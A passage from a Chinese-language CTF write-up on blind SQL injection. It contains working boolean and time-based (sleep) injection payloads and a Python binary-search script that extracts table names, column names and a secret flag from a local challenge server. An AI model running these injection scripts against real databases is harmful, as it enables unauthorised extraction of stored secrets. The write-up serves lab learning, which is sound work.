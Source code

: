 ```sql
    print(column)

print("All:", column)
# 表名
        # temp["student_name"] = "Alice'and((((ord(mid((select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))),%d,1))))>%d))#" %(i,mid)
        # 字段名
        # temp["student_name"] = "Alice'and((((ord(mid((select(group_concat(column_name))from(information_schema.columns)where((table_name)like('secrets'))),%d,1))))>%d))#" %(i,mid)
        # 内容
        temp["student_name"] = f"Alice'and((((ord(mid((Select(group_concat(secret_value))from(secrets)where((secret_value)like('flag%'))),{i},1))))>{mid}))#"
        r = requests.get(url, params=temp)
```

逐步探查到最后的内容为flag%

执行完脚本后显示如下

![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1733062888266-ad56c3da-06c8-4f7a-9c3b-8f81db3bac48.png)



#### blindsql2

这题与week3的盲注很相似，只不过回显消失了

这里采用sleep函数

输入

Alice'and(if((ord(mid((select(group_concat(database()))),{i},1))>{mid}),sleep(2),1))#

和Alice'and(if((ord(mid((select(group_concat(database()))),{i},1))>{mid}),sleep(6),1))#

发现响应时间有差异，可以执行

```php
import time

import requests

url = "http://127.0.0.1:50994/?"
temp = {"student_name": ""}
result = ""
for i in range(1, 1000):
    time.sleep(0.02)
    low = 32
    high = 128
    mid = (low + high) // 2
    while low < high:
        temp["student_name"] = f"Alice'and(if(((((ord(mid((select(group_concat(secret_value))from(secrets)where((secret_value)like('flag%'))),{i},1))))>{mid})),sleep(5),1))#"
        try:
            print(low, high, mid, ":")
            r = requests.get(url, params=temp, timeout=1)
        except Exception as e:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    if mid == 32 or mid == 127:
        break
    result += chr(mid)
    print(result)

print("All:", result)
```
